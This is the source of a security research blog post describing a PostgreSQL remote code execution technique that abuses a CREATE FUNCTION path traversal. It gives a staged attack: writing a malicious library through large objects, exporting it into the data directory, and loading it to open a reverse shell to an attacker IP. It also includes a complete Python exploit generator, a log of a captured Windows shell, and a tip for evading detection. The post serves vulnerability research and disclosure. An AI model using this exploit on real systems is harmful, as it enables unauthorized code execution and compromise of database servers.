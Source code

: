 ```yaml
---
layout: post
title: "SQL Injection Double Uppercut :: How to Achieve Remote Code Execution Against PostgreSQL"
date: 2020-06-26 09:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Postgres" src="/assets/images/sql-injection-double-uppercut-how-to-achieve-remote-code-execution/pg.png">
<p class="cn" markdown="1">When I was researching exploit primitives for the SQL Injection vulnerabilities discovered in [Cisco DCNM](/blog/2020/01/14/busting-ciscos-beans-hardcoding-your-way-to-hell.html), I came across a generic technique to exploit SQL Injection vulnerabilties against a PostgreSQL database. When developing your exploit primitives, it's always prefered to use an *application technique*, that doesn't rely on some other underlying technology.</p>

<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I share yet another technique to achieve remote code execution against PostgreSQL Database.*</p>

<p class="cn" markdown="1">An application technique would be the ability to compromise the database integrity and leverage the trust between the application code and the database. In the case of Cisco DCNM, I found 4 different techniques, 2 of which I blogged about (directory traveral and deserialization).</p>

## Prior Research

<p class="cn" markdown="1">Although I didn't know it at the time, [Jacob Wilkin](https://twitter.com/Jacob_Wilkin) had [reported a simpler approach](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) to achieving code execution against PostgreSQL by (ab)using [copy from program](https://www.postgresql.org/docs/12/sql-copy.html). Recently, Denis Andzakovic also [detailed](https://pulsesecurity.co.nz/articles/postgres-sqli) his way of gaining code execution against PostgreSQL as well by (ab)using read/writes to the `postgresql.conf` file.</p>

<p class="cn" markdown="1">I was originally going to sit on this technique, but since Denis exposed the power of `lo_export` for exploitation, I figured one more nail on the coffin wouldn't hurt ;-></p>

<p class="cn" markdown="1">I did some testing and discovered that under windows, the NETWORK_SERVICE cannot modify the `postgresql.conf` file, so Denis's technique is *nix specific. However, his technique doesn't require stacked queries, making it powerful in certain contexts.</p>

## CREATE FUNCTION obj_file Directory Traversal

<div markdown="1" class="cn">
- CVE: N/A
- CVSS: 4.1 [(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:N/AC:H/PR:H/UI:N/S:U/C:L/I:L/A:L))
</div>

### Environment

<p class="cn" markdown="1">This technique works on both *nix and Windows but does require stacked queries since we are leveraging the [create function](https://www.postgresql.org/docs/12/sql-createfunction.html) operative.</p>

### Summary

<p class="cn" markdown="1">On the latest versions of PostgreSQL, the `superuser` is no longer allowed to load a shared library file from anywhere else besides `C:\Program Files\PostgreSQL\11\lib` on Windows or `/var/lib/postgresql/11/lib` on *nix. Additionally, this path is **not writable** by either the NETWORK_SERVICE or postgres accounts.</p>

<p class="cn" markdown="1">However, an authenticated database `superuser` can write binary files to the filesystem using "large objects" and can of course write to the `C:\Program Files\PostgreSQL\11\data` directory. The reason for this should be clear, for updating/creating tables in the database.</p>

<p class="cn" markdown="1">The underlying issue is that the `CREATE FUNCTION` operative allows for a directory traversal to the data directory! So essentially, an authenticated attacker can write a shared library file into the data directory and use the traversal to load the shared library. This means an attacker can get native code execution and as such, execute arbitrary code.</p>

### Attack Flow

<p class="cn" markdown="1">**Stage 1 -** We start by creating an entry into the `pg_largeobject` table.</p>

```sql
select lo_import('C:/Windows/win.ini', 1337);
```

<p class="cn" markdown="1">We could have easily used a UNC path here (and skip step 3), but since we want a platform independant technique, we will avoid this.</p>

<p class="cn" markdown="1">**Stage 2 -** Now we modify the `pg_largeobject` entry to contain a complete extension. This extension needs to be compiled against the exact major version of the target PostgreSQL database as well as matching its architecture.</p>

<p class="cn" markdown="1">For a file that is > 2048 bytes in length, the `pg_largeobject` table uses the `pageno` field. So we must break our file up into chunks of size 2048 in bytes.</p>

```sql
update pg_largeobject SET pageno=0, data=decode(4d5a90...) where loid=1337;
insert into pg_largeobject(loid, pageno, data) values (1337, 1, decode(74114d...));
insert into pg_largeobject(loid, pageno, data) values (1337, 2, decode(651400...));
...
```

<p class="cn" markdown="1">It maybe possible to skip stage 1 (and only performing a single statement execution for stage 2) by using [object identifier types](https://www.postgresql.org/docs/8.1/datatype-oid.html) within PostgreSQL, but I have not had the time to confirm this.</p>

<p class="cn" markdown="1">**Stage 3 -** Now we can write our binary into the data directory. Remember, we can't use traversals here since that is checked, but even if we could, strict file permissions for the NETWORK_SERVICE account exist and we have limited options.</p>

```sql
select lo_export(1337, 'poc.dll');
```

<p class="cn" markdown="1">**Stage 4 -** Now, let's trigger the loading of the library.</p>

<p class="cn" markdown="1">I demonstrated in a class I taught a few years back that you can use fixed paths (including UNC) to load extensions against PostgreSQL version 9.x, thus gaining native code execution. [@zerosum0x0](https://twitter.com/zerosum0x0) [demonstrated this](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) by using the file write technique with a fixed path on the filesystem. But back then, permissions on the filesystem were not as restrictive.</p>

```sql
create function connect_back(text, integer) returns void as '//attacker/share/poc.dll', 'connect_back' language C strict;
```

<p class="cn" markdown="1">However, a few years passed and the PostgreSQL developers decided to block fix paths and alas, that technique is now dead. But we can simply traverse from the lib directory and load our extension! The underlying code of the `create function` appends the `.dll` string, so don't worry about appending it:</p>

```sql
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
```

<p class="cn" markdown="1">**Stage 5 -** Trigger your reverse shell.</p>

```sql
select connect_back('192.168.100.54', 1234);
```
			
### Things to consider

<div markdown="1" class="cn">
- You can load DllMain also, but pwning your error log is a one way ticket to detection!
- As mentioned, you will need to compile the dll/so file using the same PostgreSQL version including architecture.
- You can download the extension I used [here](https://github.com/sourceincite/tools/blob/master/pgpwn.c) but you will need to compile it yourself.
</div>

### Fun Facts

<p class="cn" markdown="1">ZDI initially aquired this case but never published an advisory and I was later told me that the vendor wasn't patching it since it's considered a *feature not a bug*.</p>

### Automation

<p class="cn" markdown="1">This code will generate a poc.sql file to run on the database as the superuser. Example:</p>

```
steven@pluto:~/postgres-rce$ ./poc.py 
(+) usage ./poc.py <connectback> <port> <dll/so>
(+) eg: ./poc.py 192.168.100.54 1234
steven@pluto:~/postgres-rce$ ./poc.py 192.168.100.54 1234 si-x64-12.dll
(+) building poc.sql file
(+) run poc.sql in PostgreSQL using the superuser
(+) for a db cleanup only, run the following sql:
    SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;
    DROP FUNCTION connect_back(text, integer);
steven@pluto:~/postgres-rce$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 192.168.100.122 49165 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\PostgreSQL\12\data>whoami
nt authority\network service

C:\Program Files\PostgreSQL\12\data>
```

```py
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
    sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```

## References

<div markdown="1" class="cn">
- [https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html)
- [https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
</div>
